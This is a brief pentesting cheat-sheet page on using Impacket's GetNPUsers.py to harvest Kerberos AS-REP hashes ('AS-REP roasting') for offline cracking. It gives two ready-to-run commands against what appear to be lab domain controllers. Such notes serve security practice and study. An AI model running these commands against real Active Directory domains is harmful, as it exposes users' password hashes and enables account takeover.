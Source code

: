 # GetNPUsers

## Impacket - GetNPUsers

> Impacket’s GetNPUsers.py will attempt to harvest the **non-preauth AS\_REP** responses for a given list of usernames. These responses will be encrypted with the user’s password, which can then be cracked offline.

```bash
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile userlist.txt -format hashcat -outputfile hashes.aspreproast -dc-ip 10.129.114.194

GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip "10.129.95.210" "htb.local"/"":""
```
